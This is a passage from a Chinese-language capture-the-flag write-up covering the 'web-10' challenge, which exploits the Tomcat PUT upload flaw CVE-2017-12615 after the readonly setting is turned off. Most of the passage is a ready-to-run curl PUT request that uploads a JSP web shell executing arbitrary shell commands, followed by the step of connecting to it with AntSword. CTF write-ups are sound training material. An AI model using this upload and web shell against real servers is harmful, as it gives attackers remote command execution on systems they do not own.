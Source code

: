 ## web-10 一个安全配置引发的血案

该题使用 Tomcat 远程代码执行漏洞分析（CVE-2017-12615）

> CVE-2017-12615漏洞利用需要将 readonly 初始化参数由默认值设置为 false，经过实际测试，Tomcat 7.x版本内web.xml配置文件内默认配置无readonly参数，需要手工添加，默认配置条件下不受此漏洞影响。
> Apache Tomcat默认开启PUT方法，org.apache.catalina.servlets.DefaultServlet的readonly默认为true，而且默认没有在conf/web.xml里写，需要手工添加并且改为false，才可以测试。
> 主要在conf文件夹的web.xml文件中添加readonly参数并设置值为false：

```xml
<init-param>
    <param-name>readonly</param-name>
    <param-value>false</param-value>
</init-param>
```

根据要求，构造PUT请求，上传一句话，然后蚁剑连接，从目录中找到flag

```shell
curl --location --request PUT 'https://tomcat-ctfd.dun.mi.com/sumy123123.jsp/' \
--header 'authority: tomcat-ctfd.dun.mi.com' \
--header 'accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
--header 'accept-language: zh-CN,zh;q=0.9,en;q=0.8' \
--header 'cookie: xxxx TODO cookie' \
--header 'sec-ch-ua: "Chromium";v="104", "/Not)A;Brand";v="24", "Google Chrome";v="104"' \
--header 'sec-ch-ua-mobile: ?0' \
--header 'sec-ch-ua-platform: "macOS"' \
--header 'sec-fetch-dest: document' \
--header 'sec-fetch-mode: navigate' \
--header 'sec-fetch-site: none' \
--header 'sec-fetch-user: ?1' \
--header 'upgrade-insecure-requests: 1' \
--header 'user-agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36' \
--header 'Content-Type: text/plain' \
--data-raw '<%
  if(request.getParameter("cmd")!=null){
    java.io.InputStream in = Runtime.getRuntime().exec(new String[]{"/bin/sh","-c",request.getParameter("cmd")}).getInputStream();
    int a = -1;
    byte[] b = new byte[1];
    out.print("<pre>");
    while((a=in.read(b))!=-1){
      out.print(new String(b));
    }
    out.print("</pre>");
  }
%>'
```

## web-11 就一个上传操作能有啥问题
